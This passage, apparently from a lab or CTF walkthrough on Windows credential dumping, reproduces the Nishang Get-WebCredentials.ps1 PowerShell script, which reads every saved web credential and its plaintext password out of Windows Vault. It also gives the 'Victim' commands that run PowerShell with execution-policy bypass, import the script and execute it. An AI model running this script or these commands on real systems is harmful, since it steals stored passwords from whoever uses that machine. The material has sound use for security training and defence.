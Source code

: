 ### Credential Dumping

The VaultCmd is not able to show the password, but we can rely on other PowerShell Scripts such as Get-WebCredentials.ps1, which is already included in the attached VM.

**Get-WebCredentials.ps1**

```
function Get-WebCredentials
{
<#
.SYNOPSIS
Nishang script to retrieve web credentials from Windows vault (requires PowerShell v3 and above)

.DESCRIPTION
This script can be used to retreive web credentiaks stored in Windows Valut from Windows 8 onwards. The script 
also needs PowerShell v3 onwards and must be run from an elevated shell.

.EXAMPLE
PS > Get-WebCredentials

.LINK
https://github.com/samratashok/nishang
#>
[CmdletBinding()] Param ()


#http://stackoverflow.com/questions/9221245/how-do-i-store-and-retrieve-credentials-from-the-windows-vault-credential-manage
$ClassHolder = [Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
$VaultObj = new-object Windows.Security.Credentials.PasswordVault
$VaultObj.RetrieveAll() | foreach { $_.RetrievePassword(); $_ }
}
```

Ensure to execute PowerShell with bypass policy to import it as a module as follows,

**Victim(cmd)**

```
powershell -ex bypass
Import-Module C:\Tools\Get-WebCredentials.ps1
Get-WebCredentials
```

<figure><img src="../../.gitbook/assets/image (15) (9).png" alt=""><figcaption></figcaption></figure>

The output shows that we obtained the username and password for accessing the internal application.
